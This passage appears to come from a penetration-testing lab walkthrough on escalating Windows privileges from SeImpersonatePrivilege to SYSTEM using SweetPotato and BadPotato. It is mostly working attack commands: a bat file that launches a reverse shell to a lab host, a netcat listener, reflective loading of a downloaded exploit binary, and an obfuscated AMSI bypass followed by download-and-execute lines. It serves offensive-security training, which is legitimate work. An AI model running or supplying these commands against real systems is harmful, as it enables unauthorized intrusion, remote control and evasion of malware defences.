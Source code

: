 - Pack with the following commands :
```
. .\EncodeAssembly.ps1<br>Invoke-EncodeAssembly -binaryPath winPEAS.exe -namespace winPEAS -capture $true
```


- To be use as reflective assembly in powershell remember you should avoid environment.exit() in the .net code and also you must set the class and the main method public.

### SeImpersonatePrivilege to Authority\system

- To escalate privilege from our iis (or mssql) user with SeImpersonatePrivilege to Authority\system we can use one of the “potatoes” technic.
    
- A wonderfull blog post explain the different potatoes here : [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
    
- So let’s use [SweetPotato](https://github.com/CCob/SweetPotato), a compilation of all the techniques, _“the potatoe to rule them all”_.
- Ok so we clone the project and compile it with visualStudio
    
- Prepare a bat file to run ou powershell basic reverse shell on execution
```
cd www<br>echo "@echo off" > runme.bat
echo "start /b $(python3 payload.py 192.168.56.1 4445)" >> runme.bat
echo "exit /b" >> runme.bat
python3 -m http.server 8080
```

- Prepare the listener
```
nc -nlvp 4445
```


- With our reverse shell play the following command
```
mkdir c:\temp
cd c:\temp
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','c:\temp\runme.bat')
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);[SweetPotato.Program]::Main(@('-p=C:\temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()
```

- By default the tool use the [printSpoofer technic](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) by @itm4n
    
- If you don’t want to compile sweet patatoes you could also do that with BadPotato from PowerSharpPack (but first we must bypass amsi -see the AMSI bypass part before- or it will be detected)
    
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)<br>iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
Invoke-BadPotato -Command "c:\temp\runme.bat"
```
